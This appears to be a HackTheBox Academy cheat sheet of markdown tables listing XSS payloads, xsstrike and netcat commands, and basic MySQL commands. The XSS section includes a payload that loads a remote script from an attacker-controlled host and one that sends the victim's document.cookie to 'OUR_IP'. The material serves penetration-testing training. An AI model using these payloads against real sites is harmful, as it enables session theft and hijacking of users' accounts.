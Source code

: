 ## Misc

| **Command**   | **Description**   |
| --------------|-------------------|
| `ctrl+u` | Show HTML source code in Firefox |

## Commands

| Code | Description |
| ----- | ----- |
| **XSS Payloads** |
| `<script>alert(window.origin)</script>` | Basic XSS Payload |
| `<plaintext>` | Basic XSS Payload |
| `<script>print()</script>` | Basic XSS Payload |
| `<img src="" onerror=alert(window.origin)>` | HTML-based XSS Payload |
| `<script>document.body.style.background = "#141d2b"</script>` | Change Background Color |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image |
| `<script>document.title = 'HackTheBox Academy'</script>` | Change Website Title |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>` | Overwrite website's main body |
| `<script>document.getElementById('urlform').remove();</script>` | Remove certain HTML element |
| `<script src="http://OUR_IP/script.js"></script>` | Load remote script |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>` | Send Cookie details to us |
| **Commands** |
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"` | Run `xsstrike` on a url parameter |
| `sudo nc -lvnp 80` | Start `netcat` listener |
| `sudo php -S 0.0.0.0:80 ` | Start `PHP` server |

## MySQL

| **Command**   | **Description**   |
| --------------|-------------------|
| **General** |
| `mysql -u root -h docker.hackthebox.eu -P 3306 -p` | login to mysql database |
| `SHOW DATABASES` | List available databases |
| `USE users` | Switch to database |
| **Tables** |
| `CREATE TABLE logins (id INT, ...)` | Add a new table |
| `SHOW TABLES` | List available tables in current database |
| `DESCRIBE logins` | Show table properties and columns |
| `INSERT INTO table_name VALUES (value_1,..)` | Add values to table |
| `INSERT INTO table_name(column2, ...) VALUES (column2_value, ..)` | Add values to specific columns in a table |
| `UPDATE table_name SET column1=newvalue1, ... WHERE <condition>` | Update table values |